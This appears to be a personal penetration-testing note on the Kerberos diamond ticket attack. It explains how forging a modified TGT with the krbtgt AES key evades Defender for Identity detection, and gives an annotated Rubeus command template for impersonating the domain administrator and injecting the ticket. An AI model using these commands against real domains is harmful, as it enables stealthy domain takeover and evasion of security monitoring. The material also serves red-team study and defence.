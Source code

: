 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

- When we forge a `diamont ticket`, there is no pre-auth request corresponding to the forged ticket. This is an anomaly and can be detected by MDIs.
- To bypass this, we can request a TGT, decrypt it, modify if, then re-encrypt it, using the AES keys of the `krbtgt` account.
- Diamond ticket is the opsec safe version of the golden ticket.
### Rubeus
```powershell
Rubues.exe diamond
	/krbkey:<aes-key> # krbtgt aes account
	/user:<username> # user to use for as-req
	/password:<password> # password for the user to use for as-req
	/enctype:aes
	/ticketuser:administrator # user to create forged ticket for
	/domain:<domain-fqdn> # fqdn of the domain
	/dc:<dc-fqdn> # fqdn of the domain controller
	/ticketuserID # impersonated user ID, RID of administrator
	/groups
	/createnetonly:C\windows\system32\cmd.exe # logon type 9, only net requests.
	/show
	/ptt
	# instead of the passsing username & password, we can use
	/tgtdeleg # this will use the current user, and does not require password
```